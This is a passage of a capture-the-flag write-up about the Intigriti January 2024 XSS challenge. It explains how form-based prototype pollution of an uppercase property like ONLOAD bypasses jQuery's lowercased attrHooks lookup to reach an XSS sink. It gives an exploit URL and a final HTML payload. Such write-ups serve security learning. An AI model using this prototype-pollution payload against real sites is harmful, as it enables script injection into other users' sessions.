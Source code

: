 This is where it took me much time to figure out the solution https://gist.github.com/Sudistark/d869e505c8ff45c3bb96612bcb2c953b even tried asking Mizu if I was on the right path or not

He told me yeah it should work as this is the unintended solution which everyone was using :p,as I knew there must be something I am still missing I looked at it again and again to fix it but still had no success.
I was looking for a way to make hooks undefined,which didn't looked possible as the polluted property will be available to all the objects.

Next day when I again looked at it, I noticed that:

```js
jQuery.attrHooks[ name.toLowerCase() ]
```

They were transforming the polluted property to lowercase before using it, so if for eg pollute a propert `SRCDOC`

```js
Object.prototype.SRCDOC=1337

jQuery.attrHooks["srcdoc"] // undefined as only the SRCDOC exists not srcdoc in the prototype chain
```

Due to the lowercase transformation it was possible to make hooks undefined and reach the sink easily.


https://challenge-0124.intigriti.io/challenge?name=shirley%3Cform%20id=%22search%22%3E%20%3Cinput%20name=%22q%22%20value=%22angular/material-start%22%3E%20%3Cinput%20name=%22__proto__.ONLOAD%22%20value=%22alert()%22/%3E%20%3C/form%3E&search=angular/material-start


Final payload

```html
<form id="search"> 
<input name="q" value="angular/material-start"> 
<input name="__proto__.ONLOAD" value="alert()"/> 
</form>
```

![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/287124f6-67ef-47e9-b347-a095a98f2124)

